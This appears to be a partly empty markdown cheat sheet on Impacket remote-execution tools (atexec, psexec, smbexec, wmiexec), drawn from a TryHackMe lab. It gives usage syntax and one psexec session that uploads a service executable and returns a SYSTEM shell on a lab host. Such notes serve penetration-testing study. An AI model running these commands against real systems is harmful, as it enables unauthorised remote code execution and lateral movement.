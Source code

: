 - [atexec.py](#atexecpy)
- [psexec.py](#psexecpy)
- [smbexec.py](#smbexecpy)
- [wmiexec.py](#wmiexecpy)
- [References](#references)

-------------------------------------------

# [atexec.py](#atexecpy-1)
## 
```sh
python atexec.py domain/username:password@hostIP command
```

## 
```sh

```

# [psexec.py](#psexecpy-1)
## 
```sh
python psexec.py domain/username:password@hostIP
```

## 
```sh
$ psexec.py lunar.eruca.com/Administrator:'TryHackMe!'@$t
Impacket v0.12.0.dev1+20230823.84619.912e896 - Copyright 2023 Fortra

[*] Requesting shares on 10.10.113.23.....
[*] Found writable share ADMIN$
[*] Uploading file LNlovqMF.exe
[*] Opening SVCManager on 10.10.113.23.....
[*] Creating service jYdU on 10.10.113.23.....
[*] Starting service jYdU.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.1098]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system
```

# [smbexec.py](#smbexecpy-1)
## 
```sh

```

## 
```sh

```

# [wmiexec.py](#wmiexecpy-1)
## 
```sh

```

## 
```sh

```

## 
```sh

```

## 
```sh

```

# [References](#references-1)

https://www.hackingarticles.in/remote-code-execution-using-impacket/